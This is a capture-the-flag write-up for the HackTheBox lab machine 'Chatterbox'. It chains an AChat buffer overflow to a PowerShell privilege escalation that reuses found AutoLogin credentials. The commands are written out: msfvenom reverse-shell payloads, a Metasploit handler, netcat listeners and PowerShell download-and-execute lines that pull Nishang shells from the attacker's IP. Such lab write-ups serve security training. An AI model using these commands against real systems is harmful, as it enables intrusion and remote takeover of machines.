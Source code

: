 ```yaml
---
layout: default
tags: windows active_directory
---
```

# HackTheBox - Chatterbox writeup 

![Chatterbox Header image](/assets/images/htb_chatterbox/chatterbox_header.png)

[HackTheBox](https://www.hackthebox.eu/)

## Introduction 

This box starts by first finding `Achat` program that is running on an obscure port number, we exploit this program by modifying a public buffer overflow exploit to allow us to gain an initial foothold on the system. With a bit of enumeration we then find **AutoLogin** credentials which we can then use to start another process to gain and Administrator shell.

## Initial recon

**Target IP: 10.10.10.74**

### Nmap scan

This machine is a little tricky as if you do a normal nmap scan of the top 1000 ports it will pick up nothing. Thus we need to run a scan of all TCP ports (-p-) this however will take a long time and thus we should limit it to just a plain TCP scan with no version and script scanning. We will add the -Pn flag to not do a ping scan, as well as the -n to not do a DNS resolution and -T5 to run the fastest scan as this machine takes a while.

```
sudo nmap -Pn -n -T5 10.10.10.74
```

After we discover two open ports we can run a more specific scan to discover what services are running on these ports

```
sudo nmap -p 9255,9256 -sV -sV -n -Pn 10.10.10.74 -oA tcp_ver_def_scan
```

I did not run a UDP scan as it was taking to long and the ports revealed during the TCP scan were enough to find an exploit to gain the initial foothold.

#### TCP Scan Results

```
# Nmap 7.80 scan initiated Sun Sep  6 08:16:23 2020 as: nmap -p 9255,9256 -sV -sV -n -Pn -oA tcp_ver_def_scan 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 08:16:32 2020 -- 1 IP address (1 host up) scanned in 9.09 seconds
```

There are only two ports open on this system with a services called `AChat chat system`

## Enumeration

Searching [exploitdb.com] for `achat` we find an exploit called [Achat 0.150 beta7 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/36025). If you read the exploit code the payload just opens up the **calc.exe** program which is not very useful. We will need to generate a new payload using msfvenom and replace it as well as adjust the `server_address` variable to have the correct IP address and port number of the target system. Also take note that we only have 1152 bytes to work with for our payload.

Download the exploit.
```
wget https://www.exploit-db.com/download/36025 -O achat_exploit.py
```

Lets generate a simple staged Windows TCP reverse shell using msfvenom with the command below.

```
 msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

![Shellcode](/assets/images/htb_chatterbox/chatterbox_shell_code.jpg)

Replace the **buf** code within the exploit script with the generated output from the above command.

Run msfconsole and setup the exploit multi handler to catch the reverse shell to send over the remaining payload.
```
sudo msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.10.14
set LPORT 9001
exploit
```

Run the python buffer overflow exploit and get your reverse shell.

![Reverse Shell](/assets/images/htb_chatterbox/chatterbox_reverse_shell.jpg)

## Privilege Escalation

The shell we obtained above is for the user `alfred`, lets see if we can get an Administrator shell.

First lets start up a simple python HTTP server to serve our Windows Privilege Escalation Awesome Suite Script (WinPEAS)
```
sudo python3 -m http.server 80
```

Now lets download the WinPEAS script to the victim machine and then execute it.
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.14/winPEASany.exe', 'C:\Users\Alfred\winPEASany.exe')
.\winPEASany.exe
```

The WinPEAS script finds some AutoLogin credentials on the system.

![WinPEAS](/assets/images/htb_chatterbox/chatterbox_winpeas_autologin.jpg)

Lets try to use these credentials to get a reverse shell as the administrator.

First we are going to need a powershell shell to do this, so lets use Nishang `Invoke-PowerShellTcp.ps1` script.

You can find download the script from here: [Nishang Shells Github Repo](https://github.com/samratashok/nishang/tree/master/Shells)

Edit the script and add the following line to the bottom of the file to execute the reverse shell automatically
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1337
```

Open up a netcat listener on port 1337
```
sudo nc -nvlp 1337
```

Then execute the following code on the target system.
```
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/shell.ps1')" 
```

### Run commands as Administrator

In order to run a command as an administrator we are going to need to execute the following commands to create a powershell credentials object which we will then  use to start a process running a new reverse shell as the Administrator user.
```powershell
$passvar = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $passvar)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.14/shell2.ps1')" -Credential $cred
```

We have obtained a shell now as the administrator user and we can read the root.txt file.

![Root shell](/assets/images/htb_chatterbox/chatterbox_root_shell.jpg)

## Summary

This box was pretty easy, it involved editing the buffer overflow exploit and then enumerating the machine to find the autologin credentials which we then used to get a reverse shell as the Administrator. The most important thing with this box is the ability to execute commands/start processes as a different user on the system via the powershell commands.

## Notes

We could have just started by using a meterpreter shell in the buffer overflow exploit and then load the powershell module into metasploit. Alternatively we could have just replaced the command in the original msfvenom generation command to download and execute the Nishang powershell TCP reverse shell using the command below.

Take note of the escaped strings in the powershell command.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/test.ipp')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

## References